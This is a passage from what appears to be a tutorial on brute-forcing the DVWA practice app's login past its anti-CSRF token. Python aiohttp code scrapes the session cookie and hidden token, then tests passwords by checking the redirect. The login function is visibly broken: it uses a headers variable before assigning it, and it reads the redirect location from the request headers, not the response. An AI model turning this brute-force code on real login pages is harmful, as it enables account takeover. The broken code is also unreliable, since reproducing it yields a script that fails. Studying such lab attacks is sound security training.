 There is no visible addition input - `hidden`, with random value every new time you load the page.
Server knows what token was dedicated to what paticular PHPSESSID.
So in case if wrong token will be used , login won't be succesful eve with valid credentials.

With this protection in place, an attacker who tries to perform CSRF using a malicious site cannot fake HTTP requests without knowing the current token set in the valid user’s cookie  PHPSESSID. Because your server rejects all requests without this token, any attack attempts will fail.
More info on <https://www.invicti.com/blog/web-security/protecting-website-using-anti-csrf-token/>, <https://www.invicti.com/blog/web-security/protecting-website-using-anti-csrf-token/>

There fore to start brutforsing, we have to get `PHPSESSID` and `user_token`.

So HTTP get of the login page give use this infor in set-cookies and response body. HTMP parsing is not mandatory - we can d it with regexp.

```python
async def get_phpssid_and_user_token(login_page_url, session):
  async with session.get(login_page_url, allow_redirects = False) as response:
    headers = response.headers
    set_cookie = headers.get('Set-Cookie')
    # PHPSESSID=sonlldpq6ikpmqnpq5lh6rbvn6; path=/'
    phpsessid = re.search("PHPSESSID=(.+?);", set_cookie).group(1)
    content = await response.text()
    # <input type='hidden' name='user_token' value='516a2d3820eda4873109988ec5ff167c' />
    user_token = re.search("name='user_token' value='(.+?)'", content).group(1)
    logging.debug(f"get_phpssid_and_user_token done phpsessid: {phpsessid}, user_token: {user_token}")
    return phpsessid, user_token
```

I am not processing possible error is this examples to make them short.
In real case it you always sould do it.

## Login function

For brute-forcing, we need a boolean function that returns true if the login was successful and false otherwise. The unsuccessful login signal for DVWA is a redirection to `login.php`, while a redirection to `index.php` indicates a successful login.

Here is a login page with async aiohttp in python.

```python
async def login(login_page_url, user, password, user_token, phpsessid):
  data = {
        'username': user,
        'password': password,
        'Login': 'Login',
        'user_token': user_token
  }
  async with aiohttp.ClientSession() as session:
    async with session.post(login_page_url, allow_redirects = False, headers=headers, data=data) as response:
      headers = {
          'Content-Type': 'application/x-www-form-urlencoded',
          'Cookie': f'PHPSESSID={phpsessid}; security=low',
      }
      location = headers.get('Location')
      if location == "index.php":
        return True
      return False
```
